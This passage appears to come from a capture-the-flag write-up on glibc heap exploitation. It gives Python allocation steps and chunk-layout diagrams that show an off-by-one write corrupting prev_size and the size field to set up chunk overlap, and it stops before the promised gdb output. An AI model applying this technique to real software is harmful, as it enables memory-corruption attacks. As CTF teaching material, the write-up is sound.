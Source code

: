 Now, we will alllocate the chunk of following size, usually the ones which will go to either the `tcache` bin or the `unsorted` bin:-

```py

 # heap_chunks[0] ==> size 0x500
add(0x4f0,"a"*0x8,1)
# heap_chunks[1] ==> size 0x070
add(0x60,"b"*8)
# heap_chunks[2] ==> size 0x40
add(0x30,"a"*8)
# heap_chunks[3] ==> size 0x20
add(0x10,"a"*8)
# heap_chunks[4] ==> size 0x500
add(0x4f0,"b"*8,0)
# heap_chunks[5] ==> size 0x20
add(0x10,"a"*8)
```

Now, here we allocated the `chunk[0]` and `chunk[4]` in an unsorted bin range and the rest of them usually belongs to the `tcache` bin range. Now, what we will do here is, free the `chunk[3]` of size `0x10` and then allocate a chunk of size `0x18` but at the same it'll belong to the bin of the `0x20`, the same chunk will be returned. When that will happen, since the actual size we allocated and we are allowed to write to will be of size `0x18` allowing us to write into the metadata and if we will look at the layout of the chunk:-

```asm
The 0x20 chunk

+++++++++++++++++++++++++++
|   0x00      |  0x00     | --> 0x10
+++++++++++++++++++++++++++
|  prev_size  |   size    | --> 0x10 
---------------------------

After we edit the metadata of the chunk

++++++++++++++++++++++++++
|  0x00       | 0x00     |
++++++++++++++++++++++++++
| 0x5d0       | 0x501    | --> heap_chunks[4] size
--------------------------
```
Now, what will happen here is we will trigger the off by one vulnerability and as well as the `prev_size` this will result in the chunk layout being:-

```asm
++++++++++++++++++++++++++
|  0x00       | 0x00     |
++++++++++++++++++++++++++
| 0x5d0       | 0x500    | 
--------------------------
```

So, when we look at it ourselves in the gdb:-

